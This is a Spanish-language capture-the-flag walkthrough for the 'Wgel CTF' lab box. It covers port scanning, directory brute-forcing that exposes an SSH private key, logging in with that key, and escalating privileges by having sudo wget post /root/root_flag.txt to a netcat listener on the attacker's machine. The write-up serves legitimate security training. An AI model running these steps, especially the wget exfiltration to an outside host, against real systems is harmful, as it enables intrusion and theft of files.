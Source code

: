 # [Task 1] Wgel CTF 26/10/2019
Have fun with this easy box.
### Antes de nada scaneo
```
$ nmap -Pn -sT -p- -O -sC -sV -T5
```
<p>
Es scaner nos indica la existencia de dos puertos, 22 y 80. Abrimos navegador y nos vamos al servidor http. La conexión solo muestra la página de información de apache, pero si vemos el código fuente nos desvela la existencia del comentario:
<p>
 
```
!-- Jessie don't forget to udate the webiste -->
```

<p>
Pasamos a enumerar las páginas:
<p>
 
```
gobuster dir -u http://IP/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q
```
<p>
Nos quedamos con el directorio sitemap y volvemos a enumerar.
<p>
 
 ```
gobuster dir -u http://IP/sitemap -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q 
 ```

<p>
Esta vez nos hemos encontrado con un directorio muy interesante  **/.ssh** Cuando nos conectamos a esa página vemos el fichero con la clave privada de ssh. Dado que sólo tenemos un usuario, probamos a conectarnos vía ssh al server. Antes de nada hay que cambiar los permisos al fichero.
 
 ```
 $ chmod 600 id_rsa
 $ ssh -i ./id_rsa jessie@ip
 ```
 Pasen, están en su casa :D
 La primera bandera a buscar es la de user_flag.txt, la cual está ubicada en .... home de ese user.
 
 La siguiente bandera es la de root. Lo primero de todo es saber lo que se puede hacer con ese usuario, 
 
 ```
 $ sudo -l -l
 
```
Podemos ejecutar /usr/bin/wget sin meter la clave. Pues adelante.
Para obtener el fichero root_flag.txt, abrimos un puerto en mi máguina local con un netcat y hacemos un post del fichero root a mi máquina.

```
En local
$ nc -lvnp 1234

En el server
sudo /usr/bin/wget --post-file=/root/root_flag.txt IP_Local:port
```

ya tenmeos la flag de root.
 
### #1	User flag<p>
### Solución:
`codigo`
Answer format: ********************************


### #2	Root flag
 
Answer format: ********************************

